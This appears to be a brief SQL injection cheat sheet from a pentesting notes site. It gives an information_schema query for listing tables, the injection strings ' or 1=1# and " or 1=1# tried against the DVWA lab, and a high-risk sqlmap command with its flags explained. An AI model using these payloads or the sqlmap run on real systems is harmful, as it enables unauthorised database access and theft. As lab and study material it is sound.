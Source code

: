 ```sql
SELECT table_name from information_schema.tables  where table_schema=database();
```

### Use wildcard

```
where username='%F%'
where username='%F'
having username='A%'
```

### How to test

1. **add **<mark style="color:red;">**`'"`**</mark>
2. <mark style="color:red;">**`" or 1=1#`**</mark>**`   ``|`` `` `**<mark style="color:red;">**`' or 1=1#`**</mark>&#x20;

in DVWA

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SQLMAP

```sh
sqlmap -r req.txt --dbs --random-agent --risk 3 --level 5 -p username,password
```

\-**`r`   =>**   File name

**`-dbs =>`** Enumerate DBMS databases

**`--level=LEVEL =>`** Level of tests to perform (1-5, default 1)

**`--risk=RISK =>`**     Risk of tests to perform (1-3, default 1)

**`-p`** TESTPARAMETER  Testable parameter(s)
